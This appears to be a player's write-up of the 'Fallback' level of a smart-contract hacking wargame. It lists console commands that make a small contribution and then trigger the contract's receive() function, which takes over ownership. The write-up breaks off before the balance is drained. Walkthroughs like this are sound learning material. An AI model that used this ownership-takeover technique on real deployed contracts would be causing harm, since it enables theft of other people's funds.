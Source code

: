 ### Task

Look carefully at the contract's code below.

You will beat this level if

1.    you claim ownership of the contract
2.    you reduce its balance to 0

### Observations

Can either gain ownership through contribute() function, in which case I require over 100 Ether (takes too long).
Or I can gain ownership by exploiting the Fallback function recieve(), which runs upon funds entering the contract without calldata.

### Steps

Check who is owner.
`contract.owner()`

I need to be a contributer. So I'll send less than 0.001 Eth to contribute function.
`contract.contribute({value: web3.toWei('0.0009')})`

Check I am a contributer.
`contract.getContribution().then(v=>v.toString())`

Now I just need to trigger the recieve() fallback.
`contract.sendTransaction({value: web3.toWei('0.0001')})`

Check I am now owner.
`contract.owner()`
`player`
